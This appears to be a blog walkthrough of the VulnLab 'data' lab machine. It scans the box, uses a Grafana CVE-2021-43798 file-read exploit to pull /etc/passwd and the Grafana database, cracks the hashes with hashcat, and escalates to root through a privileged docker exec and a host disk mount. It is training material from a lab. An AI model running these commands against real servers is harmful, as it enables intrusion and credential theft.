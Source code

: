```yaml
---
layout: post
title:  "VulnLab | data"
description: "Walkthrough of data machine, an easy rated box from VulnLab"
date: "2024-11-15"
pin: true
image:
  path: ./assets/img/ctf/vulnlab/data/data1.png
  alt: "data.vl"
category: "VulnLab"
tags: ["Linux", "CVE-2021-43798", "grafana database", "docker container"]
---
```


## Introduction
------------------------------------------------------------------------------------------
[data](https://www.vulnlab.com/machines) is an easy rated linux box from vulnlab. The machine has only 2 open ports running SSH and Grafana, a popular open-source analytics and visualization platform commonly used for monitoring and observability through interactive dashboards. The foothold consist of exploiting grafana for CVE-2021-43798 in order to export the grafana database. We then crack `boris` password from the database and access the box over ssh.  To escalate to root, we abuse the fact that boris is allowed to to run `` as root to grand the grafana container additionals privileges and break out to access the host.

------------------------------------------------------------------------------------------


## Enumeration
We start by a full scan to discover all tcp opned ports...
### All Open Ports
```bash
rustscan -a 10.10.95.219
```
![rustscan](./assets/img/ctf/vulnlab/data/data2.png)

### Services Scanning
```bash
nmap -p22,3000 -sC -sV -v -oN data.full 10.10.95.219
```
```text
# Nmap 7.94SVN scan initiated Mon Nov 11 18:35:54 2024 as: nmap -p22,3000 -sC -sV -oN data.full 10.10.95.219
Nmap scan report for 10.10.95.219
Host is up (0.046s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:a9:1e:f7:a9:40:ee:1d:43:42:9c:61:26:4d:db:a2 (RSA)
|   256 99:94:2a:bb:8b:8c:05:99:c1:04:fd:6a:c9:6e:c2:f9 (ECDSA)
|_  256 b5:bf:ea:dd:4e:04:a7:1d:54:a3:6d:55:92:b3:96:63 (ED25519)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Content-Type: text/html; charset=utf-8
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Mon, 11 Nov 2024 17:36:04 GMT
|     Content-Length: 29
|     href="/login">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 302 Found
|     Cache-Control: no-cache
|     Expires: -1
|     Location: /login
|     Pragma: no-cache
|     Set-Cookie: redirect_to=%2F; Path=/; HttpOnly; SameSite=Lax
|     X-Content-Type-Options: nosniff
|     X-Frame-Options: deny
|     X-Xss-Protection: 1; mode=block
|     Date: Mon, 11 Nov 2024 17:36:10 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3000-TCP:V=7.94SVN%I=7%D=11/11%Time=67324083%P=x86_64-pc-linux-gnu%
SF:r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\
SF:x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20B
SF:ad\x20Request")%r(GetRequest,174,"HTTP/1\.0\x20302\x20Found\r\nCache-Co
SF:ntrol:\x20no-cache\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nE
SF:xpires:\x20-1\r\nLocation:\x20/login\r\nPragma:\x20no-cache\r\nSet-Cook
SF:ie:\x20redirect_to=%2F;\x20Path=/;\x20HttpOnly;\x20SameSite=Lax\r\nX-Co
SF:ntent-Type-Options:\x20nosniff\r\nX-Frame-Options:\x20deny\r\nX-Xss-Pro
SF:tection:\x201;\x20mode=block\r\nDate:\x20Mon,\x2011\x20Nov\x202024\x201
SF:7:36:04\x20GMT\r\nContent-Length:\x2029\r\n\r\n<a\x20href=\"/login\">Fo
SF:und</a>\.\n\n")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConten
SF:t-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n
SF:400\x20Bad\x20Request")%r(HTTPOptions,12E,"HTTP/1\.0\x20302\x20Found\r\
SF:nCache-Control:\x20no-cache\r\nExpires:\x20-1\r\nLocation:\x20/login\r\
SF:nPragma:\x20no-cache\r\nSet-Cookie:\x20redirect_to=%2F;\x20Path=/;\x20H
SF:ttpOnly;\x20SameSite=Lax\r\nX-Content-Type-Options:\x20nosniff\r\nX-Fra
SF:me-Options:\x20deny\r\nX-Xss-Protection:\x201;\x20mode=block\r\nDate:\x
SF:20Mon,\x2011\x20Nov\x202024\x2017:36:10\x20GMT\r\nContent-Length:\x200\
SF:r\n\r\n")%r(RTSPRequest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConte
SF:nt-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\
SF:n400\x20Bad\x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x2
SF:0Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection
SF::\x20close\r\n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HT
SF:TP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20cha
SF:rset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLS
SF:SessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nConten
SF:t-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n
SF:400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### Hostname
```bash
echo '10.10.95.219  data.vl'  >> /etc/hosts
```

## Foothold

### Port 3000
![grafana](./assets/img/ctf/vulnlab/data/data3.png)

```text
grafana v8.0.0 => CVE-2021-43798 => Unauthenticated file Read
```
```bash
python3 CVE-2021-43798.py -u http://data.vl:3000 -f /etc/passwd -o test.txt
```
![/etc/passwd](./assets/img/ctf/vulnlab/data/data4.png)

```bash
python3 CVE-2021-43798.py -u http://data.vl:3000 -f /var/lib/grafana/grafana.db -o grafana.db
```
![grafana.db](./assets/img/ctf/vulnlab/data/data5.png)

```sql
select email,password,salt from user;
```
![grafana.db](./assets/img/ctf/vulnlab/data/data6.png)

```bash
python3 grafana2hashcat.py -o hashcat.txt hashes.txt
```
![grafana2hashcat](./assets/img/ctf/vulnlab/data/data7.png)

```sh
hashcat -m 10900 hashcat.txt --wordlist /usr/share/wordlists/rockyou.txt
```
![grafana2hashcat](./assets/img/ctf/vulnlab/data/data8.png)

### Port 22
```bash
ssh boris@data.vl
```
![boris ssh](./assets/img/ctf/vulnlab/data/data9.png)


## Privilege Escalation
```sh
sudo -l
```
![docker exec](./assets/img/ctf/vulnlab/data/data10.png)

```bash
python3 CVE-2021-43798.py -u http://data.vl:3000 -f /etc/hosts -o test.txt
```
![container hostname](./assets/img/ctf/vulnlab/data/data11.png)

```bash
sudo /snap/bin/docker exec --user root --privileged -it e6ff5b1cbc85 sh
```
![container hostname](./assets/img/ctf/vulnlab/data/data12.png)

```bash
cat /proc/1/status | grep -i "seccomp"
df -h
```
![container hostname](./assets/img/ctf/vulnlab/data/data13.png)
```bash
mkdir -p /mnt/juggernaut 
mount /dev/xvda1 /mnt/juggernaut
ls -l /mnt/juggernaut
```
![container hostname](./assets/img/ctf/vulnlab/data/data14.png)

```bash
ls -l /mnt/juggernaut/root
```
![container hostname](./assets/img/ctf/vulnlab/data/data15.png)


## Kill Chain Summary
1. Exploit CVE-2021-43798 to get File Read Capabilities on the box.
2. Read grafana database.
3. Using grafana2hashcat and hashcat crack grafana database entries.
4. User boris is allowed to run `/snap/bin/docker exec *` as root without a password.
5. Using the docker exec command abuse the grafana container to become root.


## References
1. FootHold<br>
[exploit](https://gist.github.com/bryanmcnulty/0f013fb75e94140bae70de2b0e986e45)<br>
[grafana2hashcat](https://github.com/iamaldi/grafana2hashcat)<br>
[grafana_exploits](https://github.com/persees/grafana_exploits)<br>

2. Priv Escalation<br>
[docker exec](https://docs.docker.com/reference/cli/docker/container/exec/)<br>
[privileged container breakout](https://juggernaut-sec.com/docker-breakout-lpe/)<br>